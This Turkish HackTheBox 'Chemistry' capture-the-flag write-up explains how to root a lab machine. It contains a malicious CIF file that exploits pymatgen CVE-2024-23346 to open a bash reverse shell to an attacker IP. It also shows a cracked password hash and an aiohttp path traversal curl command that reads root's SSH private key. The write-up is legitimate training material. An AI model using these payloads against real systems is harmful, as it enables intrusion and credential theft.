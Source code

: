 ```yaml
---
title: 'HackTheBox | Chemistry WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [command injection, lfi, directory traversal]
render_with_liquid: false
media_subpath: /images/hackthebox_chemistry/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasında bir dosyanın analiz edildiği sırada oluşan bir zafiyet olduğunu öğrenecek ve dosya içeriğini değiştirerek zafiyeti istismar edeceğiz. Daha sonra web uygulamasında kullanılan sqlite dosyasının içerisinden sistem kullanıcısının bilgilerini çıkaracağız. Yetki yükseltebilmek için sistemde dolaştığımız sırada yerel ağda bir web uygulamasının çalıştığını tespit edecek ve bu web uygulamasında kullanılan bir modülün üzerinde Local File Inclusion zafiyetinin olduğunu keşfedeceğiz. Sonrada bu zafiyetten faydalanarak root kullanıcısının id_rsa dosyasını çekecek ve bu dosyayı kullanarak root kullanıcısına geçiş yapacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.11.38                                                                                                                                                            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-22 07:44 EDT                                                                                                                            
Nmap scan report for 10.10.11.38                                                                                                                                                              
Host is up (0.14s latency).                                                                                                                                                                   
Not shown: 998 closed tcp ports (reset)                                                                                                                                                       
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)                                                                                                          
| ssh-hostkey:                                                                                                                                                                                
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)                                                                                                                                
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)                                                                                                                               
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)                                                                                                                             
5000/tcp open  upnp?                                                                                                                                                                          
| fingerprint-strings:                                                                                                                                                                        
|   GetRequest:                                                                                                                                                                               
|     HTTP/1.1 200 OK                                                                                                                                                                         
|     Server: Werkzeug/3.0.3 Python/3.9.5
```

Tarama sonucunda 22 (SSH) ve 5000 (HTTP) numaralı portların açık olduğunu ve web uygulamasının `python flask` ile yapıldığını öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="900" height="500" }

HTTP servisi üzerinde `flask` ile yapılmış `CIF` dosyalarını analiz eden bir uygulama barınıyor. Bir kullanıcı oluşturalım daha sonra ise siteye giriş yapalım.

![](2.webp){: width="900" height="500" }

Örnek bir `CIF` dosyası verilmiş. Bu dosyayı indirdikten sonra tekrar yüklüyor ve sonuçları görüntülüyoruz.

![](3.webp){: width="900" height="600" }

Bazı yazıları doğrudan ekrana yazdırdığını düşünerek dosyayı düzenlemeye çalıştım ama hiçbir şekilde kod çalıştıramadım. Uzantısını google da arattığımızda ise [bu](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/) sayfa ile karşılaşıyoruz.

## Sömürü aşaması

Sayfa içerisinde gördüğümüz `CIF` dosyasının komut çalıştırdığı alanına reverse shell komutumuzu ekleyelim.

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Bu içeriği `.cif` uzantılı olacak şekilde bir dosyaya kayıt ettikten sonra dinlemeye aldığımız port üzerinden bir shell elde ediyoruz.

![](4.webp){: width="1200" height="600" }

## Yetki yükseltme

### rosa

Web uygulamasında kullanıcı girişi olduğunu hatırlıyorsunuzdur, bu kullanıcı bilgilerinin bulunduğu dosyanın içerisinde sistem kullanıcılarından biri olan rosa'nın bilgileride bulunuyor.

```console
app@chemistry:~/instance$ strings database.db | grep "rosa"
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Hash'i [hashes.com](https://hashes.com/) sitesinin yardımıyla kırdıktan sonra rosa kullanıcısına ve ilk bayrağı kendi dizininden alıyoruz.

### root

8080 numaralı yerel port üzerinde bir web uygulaması çalışıyor.

```console
rosa@chemistry:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      34896/bash          
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
rosa@chemistry:~$
```

Bu web uygulaması ile ilgilenebilmemiz için SSH tünellemesi vasıtasıyla kendi ağımızdan geçireceğiz.

```console
$ ssh rosa@10.10.11.38 -L 8080:127.0.0.1:8080
```

![](5.webp){: width="1200" height="600" }

Web uygulaması sistemdeki servislerin kontrolünü sağlayan bir uygulamaya benziyor. Tüm özellikleri de kapalı durumda, site üzerinde hiçbir işlem yapamıyoruz.

![](6.webp){: width="1200" height="600" }

Bulunduğu /opt/monitoring_site dizininede giriş iznimiz yok. Geliştirici araçlarının yardımıyla web uygulamasının header bilgilerini görüntülediğimizde python da bulunan aiohttp modülünün 3.9.1 sürümünü kullandığını görüyoruz.

![](7.webp){: width="1200" height="600" }

Modülü sürümüyle beraber internette arattığımızda [Local File Inclusion](https://github.com/wizarddos/CVE-2024-23334/blob/master/exploit.py) zafiyetinin varlığından haberdar oluyoruz. Bu zafiyetten yararlanarak root kullanıcısının dizininde bulunan id_rsa dosyasını çekiyoruz.

```console
rosa@chemistry:~$ curl --path-as-is http://localhost:8080/assets/../../../../../../root/.ssh/id_rsa                                                                             
-----BEGIN OPENSSH PRIVATE KEY-----                                                                                                                                                           
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn                                                                                                                        
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU                                                                                                                        
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v                                                                                                                        
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk                                                                                                                        
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo                                                                                                                        
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
...
```

Daha sonra kendisini kullanarak sisteme giriş yapıyor ve bayrağı /root dizininden alıyoruz.

```console
$ chmod 600 id_rsa
$ ssh root@10.10.11.38 -i id_rsa
...
root@chemistry:~# ls
root.txt
root@chemistry:~# cat root.txt 
33a1...8a9a
```
